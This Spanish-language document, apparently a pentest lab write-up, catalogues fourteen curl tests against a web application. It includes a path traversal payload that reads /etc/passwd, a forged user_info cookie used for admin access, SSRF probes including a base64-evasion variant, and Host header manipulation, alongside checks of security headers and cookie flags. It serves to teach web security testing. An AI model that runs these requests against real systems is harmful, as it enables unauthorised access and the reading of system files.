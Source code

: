 # Casos prácticos con `curl`

Este documento recoge una serie de pruebas de seguridad realizadas con `curl` como herramienta principal de análisis. Cada caso representa un escenario técnico realista, útil para entender el comportamiento de aplicaciones web ante diferentes tipos de solicitudes HTTP manipuladas.

---

## 1. Acceso administrativo manipulando cookie `user_info`

**Archivo:** `curl-admin-access-user-info-cookie-manipulation.png`  
**Descripción:**  
Accedemos directamente al panel de administración utilizando una cookie `user_info` obtenida en un login anterior, manipulada manualmente para escalar privilegios.

**Comando:**
```bash
curl -i http://cochesviejunos.es/admin.php \
--cookie "PHPSESSID=xxx; user_info=YTozOntzOjg6..."
````

**Impacto:** Escalada de privilegios por deserialización insegura o control de acceso ineficaz.

![admin access](img/curl-admin-access-user-info-cookie-manipulation.png)

---

## 2. Enumeración de índices en Elasticsearch

**Archivo:** `curl-elasticsearch-cat-indices.png`
**Descripción:**
Consulta a la API REST de Elasticsearch sin autenticación.

**Comando:**

```bash
curl http://localhost:9200/_cat/indices?v
```

**Impacto:** Exposición no controlada de información interna y logs.

![elasticsearch](img/curl-elasticsearch-cat-indices.png)

---

## 3. Petición a URL con respuesta 403 Forbidden

**Archivo:** `curl-get-weather-forbidden-403.png`
**Descripción:**
Acceso denegado por el servidor, posiblemente por validación de host/IP.

**Comando:**

```bash
curl "http://cochesviejunos.es/php2/get-weather.php?url=..."
```

**Impacto:** Comportamiento esperado ante intento de SSRF.

![403](img/curl-get-weather-forbidden-403.png)

---

## 4. Petición denegada por host no permitido

**Archivo:** `curl-get-weather-host-no-permitido.png`
**Descripción:**
El servidor devuelve "Acceso denegado a host no permitido".

**Comando:**

```bash
curl "http://cochesviejunos.es/php2/get-weather.php?url=..."
```

**Impacto:** Protección activa frente a SSRF por filtrado de destinos.

![host not allowed](img/curl-get-weather-host-no-permitido.png)

---

## 5. Manipulación de cabecera Host

**Archivo:** `curl-host-header-manipulation.png`
**Descripción:**
Enviamos una cabecera `Host` falsa para comprobar el comportamiento del servidor.

**Comando:**

```bash
curl -s -H "Host: cochesviejunos.es" http://127.0.0.1
```

**Impacto:** Detección de posibles host header injection.

![host header](img/curl-host-header-manipulation.png)

---

## 6. LFI mitigado: archivo no encontrado

**Archivo:** `curl-lfi-mitigated-file-not-found.png`
**Descripción:**
Intento de leer `/etc/passwd` mediante path traversal. El servidor devuelve error controlado.

**Comando:**

```bash
curl "http://cochesviejunos.es/php2/get-car-description.php?file=../../../../../../etc/passwd"
```

**Impacto:** LFI correctamente mitigado.

![lfi mitigado](img/curl-lfi-mitigated-file-not-found.png)

---

## 7. Petición POST de login

**Archivo:** `curl-login-post-request.png`
**Descripción:**
Simulación de login vía `POST` con credenciales explícitas.

**Comando:**

```bash
curl -i -X POST http://cochesviejunos.es/login.php \
-d "username=jdv&password=123456"
```

**Impacto:** Posible acceso al sistema y obtención de cookies.

![login post](img/curl-login-post-request.png)

---

## 8. `Set-Cookie` con `user_info`

**Archivo:** `curl-login-set-cookie-user-info.png`
**Descripción:**
Captura del `Set-Cookie` tras el login, contiene token codificado que se puede manipular.

**Impacto:** Token vulnerable a manipulación si no está protegido.

![set cookie user info](img/curl-login-set-cookie-user-info.png)

---

## 9. LFI exitoso con acceso a `/etc/passwd`

**Archivo:** `curl-path-traversal-lfi-etc-passwd.png`
**Descripción:**
Path traversal exitoso que revela contenido sensible del sistema.

**Comando:**

```bash
curl "http://cochesviejunos.es/php2/get-car-description.php?file=../../../../../../etc/passwd"
```

**Impacto:** Lectura arbitraria de archivos del sistema = crítica.

![lfi passwd](img/curl-path-traversal-lfi-etc-passwd.png)

---

## 10. Cabeceras de seguridad correctamente implementadas

**Archivo:** `curl-security-headers-good-practices.png`
**Descripción:**
Verificamos que el servidor implementa cabeceras como `Content-Security-Policy`, `X-Frame-Options`, etc.

**Comando:**

```bash
curl -I http://cochesviejunos.es
```

**Impacto:** Buenas prácticas de hardening presentes.

![headers](img/curl-security-headers-good-practices.png)

---

## 11. Redirección 302 por control de sesión

**Archivo:** `curl-session-control-302-redirect.png`
**Descripción:**
El servidor redirige a `login.php` si no hay sesión activa válida.

**Impacto:** Control de acceso basado en cookies activo.

![302 redirect](img/curl-session-control-302-redirect.png)

---

## 12. Cookies de sesión sin flags de seguridad

**Archivo:** `curl-session-cookie-no-security-flags.png`
**Descripción:**
Se detecta cookie sin `HttpOnly`, `Secure` ni `SameSite`.

**Impacto:** Vulnerable a robo vía XSS o MITM.

![no flags](img/curl-session-cookie-no-security-flags.png)

---

## 13. Cookies de sesión con flags de seguridad

**Archivo:** `curl-session-cookie-security-flags.png`
**Descripción:**
El servidor devuelve cookies correctamente configuradas.

**Impacto:** Buenas prácticas de seguridad.

![flags ok](img/curl-session-cookie-security-flags.png)

---

## 14. SSRF con parámetro codificado en base64

**Archivo:** `curl-get-weather-base64-url-encoded.png`
**Descripción:**
Prueba de SSRF usando URLs codificadas en base64 como técnica de evasión.

**Comando:**

```bash
curl "http://cochesviejunos.es/php2/get-weather.php?url=aHR0cDovL3B..."
```

**Impacto:** Riesgo potencial si el backend decodifica y permite conexión.

![ssrf encoded](img/curl-get-weather-base64-url-encoded.png)

---

## Conclusión

Como se ha mostrado, `curl` es una herramienta potente para evaluar la seguridad de aplicaciones web. Permite simular distintos vectores de ataque (path traversal, SSRF, manipulación de cookies o cabeceras HTTP) de forma directa y sencilla. Este conjunto de pruebas sirve como base para incorporar `curl` en metodologías de pentesting profesional.

```


